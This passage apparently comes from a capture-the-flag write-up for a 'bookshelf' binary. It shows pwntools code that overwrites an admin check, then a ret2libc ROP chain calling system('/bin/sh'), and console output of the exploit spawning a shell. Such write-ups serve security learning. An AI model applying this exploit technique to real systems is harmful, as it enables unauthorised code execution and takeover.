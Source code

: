 Good, let's also automate the process to get admin rights.

```python
...


# GET ADMIN ACCESS
p.sendline(b'1')            # Write a book
p.sendline(b'y')            # Write an audiobook
p.sendline(b'A' * 100)      # Overwrite the admin access check variable.

p.close()
```

Now let's craft the final payload to admin write buffer overflow

```python
...


# OVERFLOW ADMIN WRITE
log.info('Sending payload...')

p.sendline(b'3')     # Write an admin book

## Prepare the payload
offset = 56
rop = ROP(libc)

payload  = b''
payload += b'A' * offset
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( libc_base + next(libc.search(b'/bin/sh')) )
payload += p64( libc_base + libc.symbols['system'] )
# Since we are good programmers, let's also add a clean exit after buffer overflow :P
payload += p64( libc_base + rop.find_gadget(['pop rdi', 'ret']).address )
payload += p64( 0 )
payload += p64( libc_base + libc.symbols['exit'] )

p.sendline(payload)

log.success('Sent')
p.clean()

p.interactive()
```

Let's test it...

```console
$ python exploit.py
[+] Starting local process './bookshelf': pid 1811608
[*] '/usr/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leaking puts...
[+] Puts found @ 0x7f39c4275bf0
[+] libc base @ 0x7f39c4200000
[*] Sending payload...
[*] Loaded 214 cached gadgets for '/usr/lib/libc.so.6'
[+] Sent
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ ls
```